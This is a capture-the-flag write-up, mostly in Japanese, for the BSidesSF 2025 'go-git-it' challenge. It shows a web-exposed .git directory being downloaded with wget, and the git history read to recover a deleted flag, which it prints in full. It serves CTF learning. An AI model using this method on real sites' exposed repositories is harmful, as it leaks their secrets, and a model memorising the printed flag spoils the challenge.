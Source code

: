 #go-git-it

You didn't commit anything sensitive, right?
https://go-git-it-f7d62cbb.challenges.bsidessf.net/


![](image-1.png)


問題のgitが絡んでくると思ったので以下のurlにアクセス

>.gitは違った

https://go-git-it-f7d62cbb.challenges.bsidessf.net/git/


![](image.png)


## solution

.git/以下を全部ダウンロードしてくる


```
mkdir pwned_repo
cd pwned_repo

wget -r -np -nH --cut-dirs=1 --no-check-certificate https://go-git-it-f7d62cbb.challenges.bsidessf.net/git/
```

ログを見る


```
~/ctf/CTF-Writeup/BSidesSF_2025_CTF/go-git-it/repo$ git log
commit b55daeb6bd7d20f5a36c4d01021e310be8cec716 (HEAD -> main)
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:32 2025 -0700

    removed sensitive information

commit d7701d5752f6782b4f81cf1b3d955a4e25348b6a
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:05 2025 -0700

    initial commit
```

removed sensitive informationが怪しいのでgit showコマンドで見てみる

```
~/ctf/CTF-Writeup/BSidesSF_2025_CTF/go-git-it/repo$ git show b55daeb6bd7d20f5a36c4d01021e310be8cec716
commit b55daeb6bd7d20f5a36c4d01021e310be8cec716 (HEAD -> main)
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:32 2025 -0700

    removed sensitive information

diff --git a/flag.html b/flag.html
deleted file mode 100644
index 61aa83d..0000000
--- a/flag.html
+++ /dev/null
@@ -1 +0,0 @@
-CTF{g0tt4_g!t_th4t}
```

## flag

`CTF{g0tt4_g!t_th4t}`